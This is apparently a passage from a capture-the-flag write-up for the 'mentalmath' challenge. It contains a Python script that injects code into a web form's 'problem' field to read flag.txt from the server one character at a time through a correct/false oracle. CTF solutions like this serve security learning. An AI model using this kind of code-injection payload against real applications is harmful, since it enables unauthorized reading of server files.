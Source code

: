 - Or you could like my mosachistic solution which bruteforces each char of the flag and outputs correct only if the character was found. Don't blame me, I wasn't aware that you could access the network from within the application :(

```python
#!/bin/python
from time import sleep

import requests
import string

headers = {
    'Connection': 'keep-alive',
    'Accept': '*/*',
    'Origin': 'http://mentalmath.tamuctf.com',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Referer': 'http://mentalmath.tamuctf.com/play/',
    'Accept-Language': 'it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7,fr;q=0.6',
}

dic = string.ascii_lowercase + string.ascii_uppercase + string.digits + "!$()-.@[]^_{}"
currentletter = 0
currentdic = 0
result = ""

while 1:
    print("[*] Trying {}{}".format(result, dic[currentdic]))
    data = {
      'problem' : "open('flag.txt','r').read()[{}] == '{}'#".format(currentletter, dic[currentdic]),
      'answer': '1',
    }
    response = requests.post('http://mentalmath.tamuctf.com/ajax/new_problem', headers=headers, data=data, verify=False)
    resp = str(response.content)
    if '"correct": true' in resp:
        print("[*] Found letter : {}".format(dic[currentdic]))
        result = result + dic[currentdic]
        if dic[currentdic] == '}':
            print("[*] Found Flag : {}".format(result))
            break
        currentdic = 0
        currentletter = currentletter + 1
    if '"correct": false' in resp:
        currentdic = currentdic + 1
        if len(dic) == currentdic:
            print("[x] Couldn't crack {}-th character, exiting ...")
            break
    if 'Bad Gateway' in resp:
        print("[x] Bad Gatway, should wait 5 seconds ...")
        sleep(5)
```
